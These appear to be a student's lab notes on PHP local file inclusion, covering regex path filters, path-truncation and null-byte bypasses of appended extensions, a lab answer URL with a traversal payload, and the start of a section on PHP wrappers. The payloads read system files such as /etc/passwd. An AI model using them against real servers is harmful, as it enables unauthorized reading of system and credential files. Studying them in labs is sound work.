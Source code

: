 
Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. For example, the web application we have been dealing with may only accept paths that are under the `./languages` directory, as follows:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

## Appended Extension

With modern versions of PHP, we may not be able to bypass this and will be restricted to only reading files in that extension, which may still be useful, as we will see in the next section (e.g. for reading source code).

There are a couple of other techniques we may use, but they are `obsolete with modern versions of PHP and only work with PHP versions before 5.3/5.4`

#### Path Truncation

 Whenever we reach the 4096 character limitation, the appended extension (`.php`) would be truncated, and we would have a path without an appended extension.


```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

```shell
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

#### Null Bytes

PHP versions before 5.5 were vulnerable to `null byte injection`

which means that adding a null byte (`%00`) would terminate the string so anything after wold be disregarded.

To exploit this vulnerability, we can end our payload with a null byte (e.g. `/etc/passwd%00`),

#### quesiton

http://94.237.54.116:47273/index.php?language=languages//....//....//....//....//flag.txt


# PHP Filters

 If we identify an LFI vulnerability in PHP web applications, then we can utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) to be able to extend our LFI exploitation, and even potentially reach remote code execution.
